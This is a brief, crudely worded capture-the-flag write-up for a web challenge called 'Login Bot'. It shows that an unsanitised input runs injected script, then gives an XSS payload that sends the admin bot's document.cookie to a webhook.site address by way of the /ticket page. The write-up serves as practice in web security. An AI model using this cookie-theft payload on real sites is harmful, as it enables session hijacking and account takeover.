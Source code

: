 # Login Bot
Web with xss
We see that literally putting in shit like:
```html
<script>alert(1)</script>
```
already runs the script; there is no sanitization, so we just need to steal cookie and ship it off the `/ticket` for the admin to get fucked:
```html
<script>fetch("https://webhook.site/blahblah?cookie="+document.cookie,{'mode':'no-cors'})</script>
```
get cookie in https://webhook.site

Hoot
